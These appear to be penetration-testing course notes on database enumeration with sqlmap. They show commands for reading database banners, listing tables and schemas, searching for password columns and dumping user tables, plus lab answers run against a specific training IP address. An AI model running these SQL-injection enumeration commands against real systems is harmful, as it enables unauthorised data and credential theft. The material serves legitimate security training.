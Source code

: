 # 🏇 Database Enumeration

Enumeration usually starts with the retrieval of the basic information:

* Database version banner (switch `--banner`)
* Current user name (switch `--current-user`)
* Current database name (switch `--current-db`)
* Checking if the current user has DBA (administrator) rights.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

after finding the current database name (i.e. `testdb`) we might want to find the table names -> `--tables` option and specifying the DB name with `-D testdb`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

And after finding the name, we can use `--dump` option and specify the table name with `-T users`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

It will produce a .CSV file that we can use in SQLite:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

If we want to do conditional enumeration and retrieve certain rows we can use the option `--where`, as follows

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

_**What's the contents of table flag1 in the testdb database? (Case #1)**_

```
sqlmap http://94.237.53.113:50888/case1.php?id=1 --dump -T flag1 -D testdb
```

## Advanced Database Enumeration

have a complete overview of the database architecture, we could use the switch `--schema`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema
```

It would turn out something like that:

```
...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

we can search for databases, tables, and columns of interest, by using the `--search` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

It would turn out:

```
..SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+
```

We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

_**What's the name of the column containing "style" in it's name? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -C style
```

_**What's the Kimberly user's password? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -T users
```
